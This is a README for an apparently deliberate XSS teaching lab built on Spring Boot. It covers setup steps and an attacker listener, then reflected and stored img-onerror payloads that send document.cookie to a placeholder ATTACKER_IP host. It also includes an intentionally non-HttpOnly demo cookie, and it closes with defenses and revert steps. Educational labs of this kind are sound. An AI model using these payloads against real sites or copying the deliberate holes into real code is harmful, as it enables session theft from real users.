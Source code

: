 # vuln-xss-app — Quick README (summary)

**Purpose:** Local, controlled vulnerability demo for Cross-Site Scripting (XSS). Use in isolated VMs only for education and assignments.

> ⚠️ Safety: Run this only in machines and networks you control. Use fake/demo data only (e.g. `session=FAKE_FOR_DEMO`). Do not target external systems.

---

## What’s included

- `pom.xml` — Maven project
- `src/main/java/...` — Spring Boot server
- `src/main/resources/static/` — front-end HTML (search.html, comments.html, etc.)
- `attacker_listener.py` — simple Python listener (lab-only)
- `DemoCookieController.java` — demo endpoint to set a JS-readable cookie (optional)

---

## Quick setup (Ubuntu VM)

1. Install prerequisites:

```bash
sudo apt update
sudo apt install -y openjdk-17-jdk maven python3 python3-pip
```

2. Build the project (from project root):

```bash
mvn clean install -U
```

3. Run the app (example port 3001):

```bash
mvn spring-boot:run -Dspring-boot.run.arguments="--server.port=3001"
```

---

## Demo cookie (server-side) — `/set-demo-cookie`

Visit `/set-demo-cookie` to set a **demo** cookie that JavaScript can read:

```text
GET /set-demo-cookie
# sets: session=FAKE_FOR_DEMO (HttpOnly=false) — demo-only
```

**Note:** In production session cookies must be `HttpOnly`.

---

## Attacker listener (on attacker VM)

Save and run `attacker_listener.py` on the attacker VM to capture exfil requests:

```bash
python3 attacker_listener.py
# listens on 0.0.0.0:9000
```

The listener logs GET/POST requests and prints query params and headers.

---

## Example attack payloads

Replace `ATTACKER_IP` with your attacker VM IP (e.g. `10.0.2.6`) and `APP_PORT` with your app port (e.g. `3001`).

**Reflected (URL) — exfiltrate cookie via img onerror**

```
http://localhost:APP_PORT/search.html?q=<img src=x onerror="new Image().src='http://ATTACKER_IP:9000/log?c='+encodeURIComponent(document.cookie)">
```

(URL-encode if pasting into address bar.)

**Stored (comment)** — post this as a comment body and reload the comments page:

```html
<img
  src="x"
  onerror="new Image().src='http://ATTACKER_IP:9000/log?c='+encodeURIComponent(document.cookie)"
/>
```

**Reliable visual payloads (for demos):**

```html
<img
  src="x"
  onerror="console.log('XSS fired'); document.body.style.border='6px solid red'"
/>
<svg/onload=console.log('svg onload fired')>
```

---

## Testing & verification

1. Start attacker listener on attacker VM: `python3 attacker_listener.py`.
2. On client (victim) browser, visit `/set-demo-cookie` to set `session=FAKE_FOR_DEMO`.
3. Trigger reflected or stored payload. Watch attacker listener log showing `c: ['session=FAKE_FOR_DEMO']`.
4. Capture screenshots: listener output, browser console showing `document.cookie`, Elements showing injected node, and the URL or posted comment with the payload.

---

## Common troubleshooting

- If `curl -I` returns "Unsupported method ('HEAD')", use the updated `attacker_listener.py` that implements `do_HEAD` (included).
- If listener gets no requests: check VM networking (host-only/internal/bridged), firewall (`ufw`), and that listener binds to `0.0.0.0`.
- If `<script>` payloads don’t execute: modern browsers often do not execute `<script>` tags inserted via `innerHTML`. Use `img onerror` or append a `script` element via Console or a demo patch.

---

## Defenses (apply after demo)

1. **Sanitize input** server-side (e.g. `Jsoup.clean(input, Safelist.none())`) before storing or reflecting.
2. **Escape output** on frontend: use `element.textContent = userInput` instead of `innerHTML`.
3. **Set HttpOnly** on session cookies so `document.cookie` cannot read them.
4. **Content-Security-Policy** header to block inline JS (as second line of defense).
5. Add security headers: `X-Frame-Options: DENY`, `X-Content-Type-Options: nosniff`, `Referrer-Policy: no-referrer`.

---

## Reverting demo changes (must do)

- Remove `DemoCookieController` or set cookie to `HttpOnly=true`.
- Revert any demo-only front-end code that auto-executes script content from query params or stored comments.
- Replace any `innerHTML` use for untrusted data with `textContent` or sanitized HTML.
